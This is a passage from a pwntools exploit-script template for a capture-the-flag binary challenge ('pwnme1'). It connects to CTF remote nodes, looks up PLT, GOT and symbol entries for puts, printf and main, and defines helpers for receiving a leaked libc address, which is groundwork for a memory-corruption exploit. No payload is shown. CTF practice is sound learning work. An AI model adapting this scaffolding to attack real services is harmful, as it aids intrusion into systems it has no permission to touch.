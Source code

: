 ```
            return remote("node5.buuoj.cn",29300),ELF(file1),ELF(file2)

    else:

        if x:

            return process(file1),ELF(file1)

        else:

            return remote("node5.buuoj.cn",28096),ELF(file1)

p,elf=init("./pwnme1",0,1)

  

def log(a,b,c):

    if a:

        context.log_level="debug"

    if b:

        context.os='linux'

    if c:

        context.arch='amd64'  

log(1,1,1)

  

def real(name1,name2,name3):

    if name1:

        plt=elf.plt[name1]

        got=elf.got[name3]

        sym=elf.symbols[name2]

        return plt,got,sym

plt,got,sym=real("puts","main","printf")

context.terminal = ['xterm', '-e']

def debug():

    attach(p)

  

# debug()

r = lambda x: p.recv(x)

ru = lambda str: p.recvuntil(str)

rul1 =lambda : u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
```